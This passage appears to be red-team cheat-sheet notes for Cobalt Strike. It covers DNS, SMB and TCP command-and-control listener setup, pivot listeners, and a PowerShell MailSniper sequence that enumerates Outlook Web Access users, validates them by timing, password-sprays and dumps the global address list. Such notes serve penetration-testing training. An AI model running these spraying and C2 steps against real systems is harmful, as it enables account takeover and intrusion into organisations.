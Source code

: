 Config DNS

|Name |Type | Data |
|----------|----------|----------|
|@ 	|A 	|10.10.5.50|
|ns1 |A  |10.10.5.50|
|pics| NS |ns1.nickelviper.com.|

- DNS Hosts and DNS Hosts (Stager): `Attacker IP`

#### SMB

> `ls \\.\pipe\` to emulate a common name

- Pipename (C2): Input name

#### TCP

- Port (C2): Port 
- Bind to localhost only: optional


#### Pivot Listener

> A pivot listener can only be created on an existing Beacon, and not via the normal Listeners menu

1. Right-click on a Beacon and select Pivoting > Listener.  This will open a "New Listener" window
2. On beacon: `run netstat -anop tcp`
3. We can now generate payloads for this listener

## Initial Compromise

### Outlook

```powershell
Import-Module C:\Tools\MailSniper\MailSniper.ps1
#Enumerate the NetBIOS name 
Invoke-DomainHarvestOWA -ExchHostname mail.test.local
# Get a list of users
./namemash.py names.txt > possible.txt
# timing attack to validate which (if any) of these usernames are valid
Invoke-UsernameHarvestOWA -ExchHostname mail.test.local -Domain <NETBIOS NAME> -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
# Password Spraying
Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
# Get Address List
Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```

### Initial Access Payloads
